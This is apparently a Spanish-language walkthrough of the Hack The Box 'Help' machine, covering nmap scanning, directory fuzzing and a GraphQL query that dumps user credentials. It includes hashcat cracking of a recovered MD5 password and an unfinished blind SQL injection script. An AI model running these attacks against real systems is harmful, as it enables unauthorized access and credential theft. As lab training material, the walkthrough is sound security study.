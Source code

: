 # [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]
```shell
ping -c 1 10.10.10.121
nmap -p- --open -vvv -sS -Pn --min-rate 5000 -n 10.10.10.121 -oG allports
extractPorts allports
nmap -sVC -p22,80,3000 10.10.10.121 -oN target   
```

![[Help1.png]]

![[Help3.png]]
Nos muestra que esta el puerto 22 ssh abierto, el 80 de apache y el 3000 del servicio node.js

------------
# [[Enumeracion con pequeño script de NMAP y Whatweb-wappalyzer]]

```shell
nmap --script http-enum -p22,80,3000 10.10.10.121 -oN webScan    
whatweb http://10.10.10.121           
```

![[Help2.png]]
El script de nmap no dio ningun directorio y el whatweb nos informo que teniamos que agregar en el `/etc/hosts` el dominio de htb.help
![[Help 4.png]]

----
# [[FFUF]]

![[Help5.png]]
Al estar intentando enumerar a la pagina directamente no me daba ningun resultado, pero al intentar en help.htb arrojo el resultado del directorio `support`

![[Help6.png]]


curl -s -G http://help.htb:3000/graphql --data-urlencode 'query={user {username,password} }' | jq
*Parametros*
	`-G` Para hacer la peticion por GET
	`--data-urlencode` Envia la query urlencodeada
	`'query={user {username,password} }'` Pide que dumpee todos los usuarios y contraseñas
	`| jq` Muestra la respuesta en formato JSON

![[Help7.png]]
Nos da el usuario: helpme@helpme.com
Contraseña:  5d3c93182bb20f07b994a7f617e99cff                          |      Contraseña final: godhelpmeplz

##  [[Hashcat]]
```shell
hashcat -a 0 -m 0 "5d3c93182bb20f07b994a7f617e99cff" /usr/share/wordlists/rockyou.txt
```
![[Help8.png]]

El exploit para dumpear los datos con sqli esta en proceso, todavia no sirve
```python
#!/usr/bin/env python3

from pwn import *
import requests, signal, sys, time, string

#------CTRL +C ------
def def_handler(sig, frame):
    print("\n\n[!]Saliendo..\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)
#-------------------

# Variables Globales
characters = string.ascii_lowercase + ":;.,-_" + string.ascii_uppercase + string.digits
main_url = "http://help.htb/support/?v=view_tickets&action=ticket&param%5B%5D=4&param%5B%5D=attachment&param%5B%5D=1&param%5B%5D=6"

def sqli():
    data = ""
    p1 = log.progress("SQLI")
    p1.status("Iniciando ataque de inyeccion SQL")
    time.sleep(1)
    p2 = log.progress("Data")

    for position in range(1, 500):
        for character in characters:
            sqli_url = main_url + f" and substring((select group_concat(schema_name) from information_schema.schemata),{position},1)='{character}'-- -"
            r = requests.get(sqli_url)

            if r.status_code != 400:
                data += character
                p2.status(data)
                break




if __name__ == '__main__':
    sqli()
```








# Notas
##### Node.js
Es un **entorno de ejecución de JavaScript en el servidor**. Permite usar JavaScript fuera del navegador para crear aplicaciones del lado del servidor, como servidores web, APIs, bots, etc.

##### Para desconectar la vpn de HTB
```shell
sudo killall openvpn
```

##### Grep
*Parametros*
`-n` Indica la linea en la que se encontro el resultado
# Creditos
Writeup oficial de HTB
